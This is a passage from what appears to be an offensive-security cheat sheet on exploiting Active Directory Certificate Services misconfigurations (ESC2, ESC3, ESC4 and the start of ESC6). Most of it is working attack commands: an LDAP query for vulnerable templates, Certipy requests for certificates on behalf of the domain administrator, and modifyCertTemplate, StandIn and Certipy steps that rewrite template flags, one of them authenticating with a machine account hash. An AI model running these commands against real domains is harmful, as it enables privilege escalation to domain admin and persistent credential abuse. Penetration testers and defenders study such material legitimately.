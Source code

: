 WARNING: These certificates will still be usable even if the user or computer resets their password!

NOTE: Look for EDITF_ATTRIBUTESUBJECTALTNAME2, CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT, ManageCA flags, and NTLM Relay to AD CS HTTP Endpoints.

ESC2 - Misconfigured Certificate Templates
Requirements:

Allows requesters to specify a Subject Alternative Name (SAN) in the CSR as well as allows Any Purpose EKU (2.5.29.37.0)
Exploitation:

Find template
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
Request a certificate specifying the /altname as a domain admin like in ESC1.
ESC3 - Misconfigured Enrollment Agent Templates
ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users

Request a certificate based on the vulnerable certificate template ESC3.
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC3'
[*] Saved certificate and private key to 'john.pfx'
Use the Certificate Request Agent certificate (-pfx) to request a certificate on behalf of other another user
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'
ESC4 - Access Control Vulnerabilities
Enabling the mspki-certificate-name-flag flag for a template that allows for domain authentication, allow attackers to "push a misconfiguration to a template leading to ESC1 vulnerability

Search for WriteProperty with value 00000000-0000-0000-0000-000000000000 using modifyCertTemplate
python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -get-acl
Add the ENROLLEE_SUPPLIES_SUBJECT (ESS) flag to perform ESC1
python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -add enrollee_supplies_subject -property mspki-Certificate-Name-Flag

# Add/remove ENROLLEE_SUPPLIES_SUBJECT flag from the WebServer template. 
C:\>StandIn.exe --adcs --filter WebServer --ess --add
Perform ESC1 and then restore the value
python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -value 0 -property mspki-Certificate-Name-Flag
Using Certipy

# overwrite the configuration to make it vulnerable to ESC1
certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -save-old
# request a certificate based on the ESC4 template, just like ESC1.
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC4' -alt 'administrator@corp.local'
# restore the old configuration
certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -configuration ESC4.json
ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2
If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.